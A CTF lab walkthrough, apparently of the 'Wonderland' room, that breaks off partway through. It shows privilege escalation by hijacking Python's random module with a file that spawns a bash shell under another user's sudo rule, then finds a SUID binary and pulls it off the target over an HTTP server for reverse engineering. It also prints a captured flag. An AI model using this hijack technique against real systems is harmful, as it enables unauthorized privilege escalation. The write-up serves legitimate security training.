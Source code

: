 1) Now I'm in the alice's directory 
2) ls -all
```
alice@wonderland:~$ ls -all
total 40
drwxr-xr-x 5 alice alice 4096 May 25  2020 .
drwxr-xr-x 6 root  root  4096 May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25  2020 .bashrc
drwx------ 2 alice alice 4096 May 25  2020 .cache
drwx------ 3 alice alice 4096 May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt <--- IMPORTANTE
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
```
3) sudo -l
```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

4) cat /home/alice/walrus_and_the_carpenter.py
```python
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun
Had got no business to be there
After the day was done —
"It’s very rude of him," she said,
"To come and spoil the fun!"

The sea was wet as wet could be,
The sands were dry as dry.
You could not see a cloud, because
No cloud was in the sky:
No birds were flying over head —
There were no birds to fly.

The Walrus and the Carpenter
Were walking close at hand;
They wept like anything to see
Such quantities of sand:
"If this were only cleared away,"
They said, "it would be grand!"

"If seven maids with seven mops
Swept it for half a year,
Do you suppose," the Walrus said,
"That they could get it clear?"
"I doubt it," said the Carpenter,
And shed a bitter tear.

"O Oysters, come and walk with us!"
The Walrus did beseech.
"A pleasant walk, a pleasant talk,
Along the briny beach:
We cannot do with more than four,
To give a hand to each."

The eldest Oyster looked at him.
But never a word he said:
The eldest Oyster winked his eye,
And shook his heavy head —
Meaning to say he did not choose
To leave the oyster-bed.

But four young oysters hurried up,
All eager for the treat:
Their coats were brushed, their faces washed,
Their shoes were clean and neat —
And this was odd, because, you know,
They hadn’t any feet.

Four other Oysters followed them,
And yet another four;
And thick and fast they came at last,
And more, and more, and more —
All hopping through the frothy waves,
And scrambling to the shore.

The Walrus and the Carpenter
Walked on a mile or so,
And then they rested on a rock
Conveniently low:
And all the little Oysters stood
And waited in a row.

"The time has come," the Walrus said,
"To talk of many things:
Of shoes — and ships — and sealing-wax —
Of cabbages — and kings —
And why the sea is boiling hot —
And whether pigs have wings."

"But wait a bit," the Oysters cried,
"Before we have our chat;
For some of us are out of breath,
And all of us are fat!"
"No hurry!" said the Carpenter.
They thanked him much for that.

"A loaf of bread," the Walrus said,
"Is what we chiefly need:
Pepper and vinegar besides
Are very good indeed —
Now if you’re ready Oysters dear,
We can begin to feed."

"But not on us!" the Oysters cried,
Turning a little blue,
"After such kindness, that would be
A dismal thing to do!"
"The night is fine," the Walrus said
"Do you admire the view?

"It was so kind of you to come!
And you are very nice!"
The Carpenter said nothing but
"Cut us another slice:
I wish you were not quite so deaf —
I’ve had to ask you twice!"

"It seems a shame," the Walrus said,
"To play them such a trick,
After we’ve brought them out so far,
And made them trot so quick!"
The Carpenter said nothing but
"The butter’s spread too thick!"

"I weep for you," the Walrus said.
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
    ```
5) sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
- OUTPUT: 
```
The line was:    And all of us are fat!"
The line was:    And this was odd, because, you know,
The line was:    But never a word he said:
The line was:
The line was:    "A loaf of bread," the Walrus said,
The line was:
The line was:    But never a word he said:
The line was:    But never a word he said:
The line was:    And scrambling to the shore.
The line was:    Pepper and vinegar besides
```

6) If the root flag is in the user directory, would perchance the user flag be in the root directory? We know that that filename is user.txt so let’s take a look:
```
alice@wonderland:/root$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

7) Let’s see where python is getting it’s modules from: python3.6 -c 'import sys; print(sys.path)'
```
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

8) That first path looks like the current directory. This is interesting. Let's create a new file called random.py: nano random.py
```python
import pty
pty.spawn("/bin/bash")
```

9) sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
```
rabbit@wonderland:~$ 
```

10) cd /home/rabbit && ls -all
```
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

11) The executable is suid root, which could be handy. Let’s try to run it.
```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Thu, 08 Dec 2022 17:48:01 +0000
Ask very nicely, and I will give you some tea while you wait for him
 
Segmentation fault (core dumped)
```

12) The program waits for user input and causes a segmentation fault. This usually signifies a vulnerability to a buffer overflow, which means we’ll have to craft an input to execute a shell.
13) Let's take the file to our machine and do some reverse
14) we can set up a simple webserver:
```
rabbit@wonderland:/home/rabbit$ python3.6 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

15) Download file:
```
┌──(kali㉿kali)-[~]
└─$ wget http://10.10.109.53:8000/teaParty                       
--2022-12-08 11:51:41--  http://10.10.109.53:8000/teaParty
Connecting to 10.10.109.53:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: ‘teaParty.1’

teaParty.1                                                 100%[=======================================================================================================================================>]  16.42K  --.-KB/s    in 0.05s   

2022-12-08 11:51:41 (300 KB/s) - ‘teaParty.1’ saved [16816/16816]
```
16) For debug the program, we have need to set the executable bit:
```
┌──(kali㉿kali)-[~]
└─$ chmod +x teaParty
```
17) 




